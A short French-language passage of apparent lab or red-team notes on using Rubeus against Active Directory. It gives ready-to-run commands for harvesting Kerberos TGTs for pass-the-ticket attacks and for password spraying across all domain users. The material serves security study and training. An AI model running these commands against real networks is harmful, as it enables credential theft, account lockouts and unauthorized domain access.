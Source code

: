 ## Harvesting

La récolte rassemble les tickets qui sont transférés vers le KDC et les enregistre pour les utiliser dans d'autres attaques telles que l'attaque par passe le ticket.

Cette commande indique à Rubeus de récolter des TGT toutes les 30 secondes

```sh
C:\Users\Administrator> Rubeus.exe harvest /interval:30
```

## Password Spraying

Avant de pulvériser le mot de passe avec Rubeus, vous devez ajouter le nom de domaine du contrôleur de domaine au fichier hôte Windows.

```sh
C:\Users\Administrator> echo 10.10.x.x CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

C:\Users\Administrator> Rubeus.exe brute /password:YOUR_PASSWORD /noticket
```

Cela prendra `YOUR_PASSWORD` et le "pulvérisera" contre tous les utilisateurs trouvés, puis donnera le `.kirbi` TGT pour cet utilisateur

> Soyez attentif à la manière dont vous utilisez cette attaque, car elle peut vous bloquer l’accès au réseau en fonction des politiques de verrouillage de compte.